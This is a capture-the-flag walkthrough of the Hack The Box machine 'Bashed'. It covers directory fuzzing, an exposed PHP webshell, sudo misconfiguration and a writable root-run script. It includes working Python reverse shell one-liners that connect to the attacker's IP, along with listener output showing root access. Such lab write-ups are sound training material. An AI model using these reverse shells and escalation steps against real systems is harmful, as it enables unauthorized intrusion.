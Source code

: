 # Bashed: 10.10.10.68

## Hints

- Google helps find the application source code on GitHub
- Directory fuzzing is your friend
- No privesc tools needed, just some basic commands and Linux file system knowledge

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80: Recon + Gobuster

Had a quick look around the website. Not much happening. No user input avenues.

![Home page of Bashed](screenshots/phpbash.png)

Tried to find interesting files on the web server using `gobuster`. Since there is `php` mentioned on the web page, specified `gobuster` to look for `php` extensions.

```
└─$ gobuster dir -t 20 -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]    
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]    
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]     
/config.php           (Status: 200) [Size: 0]                                    
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/] 
```

## 80: dev/

The `dev` folder was found by `gobuster`... looks interesting and provides a directory listing.

![Directory index of dev](screenshots/dir_listing_dev.png)

Browsing to `http://10.10.10.68/dev/phpbash.php` provides a webshell as the `www-data` on the `bashed` machine.

![Bashed webshell](screenshots/phpbash_shell.png)

## Flag: User

Looking at the `home` directory, and `/etc/passwd` file shows two users.

```
www-data@bashed:/var/www/html/dev# ls /home/
arrexel
scriptmanager
```

And the user flag is in the `arrexel` folder.

```
www-data@bashed:/var/www/html/dev# ls -lisa /home/arrexel
total 36
6314 4 drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
12  4 drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
3099 4 -rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
14114 4 -rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
14113 4 -rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
14115 4 drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
3098 4 drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
6315 4 -rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
14117 0 -rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
3100 4 -r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
```

Checking the character count of the `user.txt` file.

```
www-data@bashed:/var/www/html/dev# wc -c /home/arrexel/user.txt
33 /home/arrexel/user.txt
```

## 80: Webshell

Getting tired of this webshell, let's get something better. Use Python to get a reverse shell.

```
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.56",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

And set up the listener on my system:

```
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.68] 35882
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Scriptmanager

Another user exists on the system. Found by checking `/etc/passwd` or viewing the `/home` directory. Turns out you can just change the user to the `scriptmanager` user without a password.

```
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:                            
    env_reset, mail_badpass,                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So switch to the `scriptmanager` user.

```
$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Flag: Root

After a browse around, easy to see the `/scripts` folder looks out of place.

```
scriptmanager@bashed:~$ ls -lisa /scripts
ls -lisa /scripts
total 20
393492 4 drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  9 10:31 .
     2 4 drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
401540 4 -rw-r--r--  1 scriptmanager scriptmanager  215 Jun  9 10:29 test.py
393805 4 -rw-r--r--  1 root          root            12 Jun  9 09:29 test.txt
```

In addition, the output from `linpeas` showed a recently modified file in the same folder. This was how I found this directory.

```
[+] Modified interesting files in the last 5mins (limit 100)
/scripts/test.txt
```

Leverage the same Python reverse shell as before, this time changing the port number.

```
echo 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.56",9002));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' > test.py
```

And set up a listener on the attacker's system.

```
┌──(thomas㉿kali)-[~/machines/bashed]
└─$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.68] 55842
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Finally, check the character count of the `root.txt` file.

```
# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Getting a fully interactive shell with ZSH is a little funky

```bash
python -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo; fg  # This is the important/different line
ENTER
ENTER
```

## Useful Resources

- [HackTheBox Bashed - ippsec](https://www.youtube.com/watch?v=2DqdPcbYcy8)
- [HackTheBox (HTB): Bashed Walkthrough by Danish Zia](https://danishzia.medium.com/hackthebox-htb-bashed-walkthrough-ab402b9f4715)
- [HTB: Bashed by 0xdf](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html)
